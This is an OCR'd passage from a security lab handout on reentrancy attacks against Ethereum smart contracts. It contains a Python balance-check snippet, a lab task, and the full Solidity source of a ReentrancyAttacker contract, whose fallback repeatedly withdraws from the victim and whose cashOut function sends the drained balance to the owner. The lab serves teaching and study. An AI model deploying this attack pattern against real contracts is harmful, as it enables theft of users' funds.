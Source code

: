 # print out the balance of my account via a local call
myBalance = contract.functions.getBalance(sender_account).call()
print("My balance {}: {}".format(sender_account, myBalance))

Lab task: Please deposit 30 ethers to the victim contract, and then withdraw 5 ethers from it. Please show
the balance of the contract.

## 4 Task 2: The Attacking Contract

To launch the reentrancy attack on the victim contract, the attacker needs to deploy an attack smart contract.
An example of the attack contract is already provided in the lab setup and the code is listed below.

Listing 5: The attack contract (ReentrancyAttacker.sol)
//SPDX-License-Identifier: UNLICENSED
**pragma solidity** ˆ0.6.8;

**import** "./ReentrancyVictim.sol";

**contract** ReentrancyAttacker {
ReentrancyVictim **public** victim;
**address payable** _owner;

```
constructor ( address payable _addr) public {
victim = ReentrancyVictim(_addr);
_owner = payable ( msg. sender );
}
```
```
fallback() external payable {
if ( address (victim). balance >= 1 ether ) {
victim.withdraw(1 ether );
}
}
```
```
function attack() external payable {
require ( msg. value >= 1 ether , "You need to send one ether
when attacking");
```

```
victim.deposit{ value : 1 ether }();
victim.withdraw(1 ether );
}
```
```
function getBalance() public view returns ( uint ) {
return address ( this ). balance ;
}
```
**function** cashOut( **address payable** _addr) **external payable** {
**require** ( **msg**. **sender** == _owner);
_addr. **transfer** ( **address** ( **this** ). **balance** );
}
}
